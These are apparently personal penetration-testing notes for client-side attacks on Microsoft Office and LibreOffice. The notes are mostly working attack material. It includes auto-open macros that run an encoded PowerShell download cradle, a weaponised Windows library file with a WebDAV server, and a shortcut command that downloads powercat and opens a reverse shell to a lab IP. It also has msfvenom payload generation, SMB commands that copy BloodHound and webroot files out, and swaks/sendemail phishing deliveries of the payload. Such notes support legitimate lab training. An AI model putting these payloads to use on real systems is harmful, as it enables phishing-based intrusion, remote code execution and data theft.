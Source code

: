# Target Reconnaissance
## Information Gathering

- Sweep for files e.g. pdf/ doc with Gobuster pattern
- Read file metadata
  
  ``` exiftool -a -u xxx.pdf ```

# Useful splitter
- Splitter.py 
    ```
        s = "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoA7AA=="
        n = 50
        for i in range(0, len(s), n):
            chunk = s[i:i + n]
            print('Str = Str + "' + chunk + '"')
    ```

# Exploit Microsoft Office

## Macro Abuse
- With old .doc file
- macro func must enabled
- windows use utf-16le base64 decode encode
- smbserver to transfer files:
   sometimes anonymous dont work due to policy
   ``` 
   impacket-smbserver -smb2support -username kali -password kali share .
   \\ip-address-of-your-linux-machine\SHARE
   ```
- Advance tech transfer files 
   ```
    net use z: \\192.168.45.243\SHARE /user:kali kali
    Copy-Item -Path 20240728062407_BloodHound.zip -Destination z:\BloodHound.zip
    
    [folder]
    Copy-Item -Path c:\inetpub\wwwroot -Destination z:\files -Recurse

    [if cmd only --> zip file first then] 
    xcopy C:\inetpub.zip Z:\

    ```



- Macro example: 
    ``` 
        Sub AutoOpen()
            MyMacro
        End Sub

        Sub Document_Open()
            MyMacro
        End Sub

        Sub MyMacro()
            Dim Str As String
            
            Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
                Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
                Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
            ...
                Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
                Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
                Str = Str + "A== "

            CreateObject("Wscript.Shell").Run Str
        End Sub
    ``` 

- useful post-exploit file transfer: https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/ 

## Execution vis Windows Library Files
- create a folder for this
1. Send email to victim containing 'config.Library-ms' which direct to malicious wsgidev 
    ``` 
    wsgidav --host=0.0.0.0 --port 80 --auth=anonymous --root /home/kali/webdav/
    ```

2. Edit IP variable to our kali and save as 'config.Library-ms' (extension = all files) then double click the file and copy paste itself into the folder
    ```
        <?xml version="1.0" encoding="UTF-8"?>
        <libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
        <name>@windows.storage.dll,-34582</name>
        <version>6</version>
        <isLibraryPinned>true</isLibraryPinned>
        <iconReference>imageres.dll,-1003</iconReference>
        <templateInfo>
        <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
        </templateInfo>
        <searchConnectorDescriptionList>
        <searchConnectorDescription>
        <isDefaultSaveLocation>true</isDefaultSaveLocation>
        <isSupported>false</isSupported>
        <simpleLocation>
        <url>http://192.168.119.2</url>
        </simpleLocation>
        </searchConnectorDescription>
        </searchConnectorDescriptionList>
        </libraryDescription>
    ```
3. edit the .ink file (shortcut) to run reverse shell & change the file name to install
    ``` 
        powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');
        powercat -c 192.168.119.3 -p 4444 -e powershell"
    ```
4. Prepare web server hosting powercat file
   ``` 
    cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
    python3 -m http.server 8000
    ```

## SMTP tool
Send email with given information e.g. receiver/sender, smtp server usrname pw
- SWAKS
  ``` sudo swaks -t dave.wizard@supermagicorg.com --from test@supermagicorg.com -ap --attach @config.Library-ms --server 192.168.151.199 --body body.txt --header "Subject: Problems" --suppress-data ```
- sendemail
    ``` sendemail -f 'jonas@localhost' \
        -t 'mailadmin@localhost' \
        -s 192.168.244.140:25 \
        -u 'a spreadsheet' \
        -m 'Please check this spreadsheet' \
        -a exploit.ods 
    ```


## Exploit Libre Office
1. Prepare payload ``` msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.241 LPORT=4444 -f hta-psh -o evil.hta ```
2. Split the file
3. open new .ods file and add macro under the file
   ```
    Sub Macro 
    Dim Str as String
    Str = Str + "cmd /c powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
    Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
    Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
...
    Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
    Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
    Str = Str + "A== "
    Shell(Str)

   ```
4. Enable auto-run once this excel is open: Tools → Customize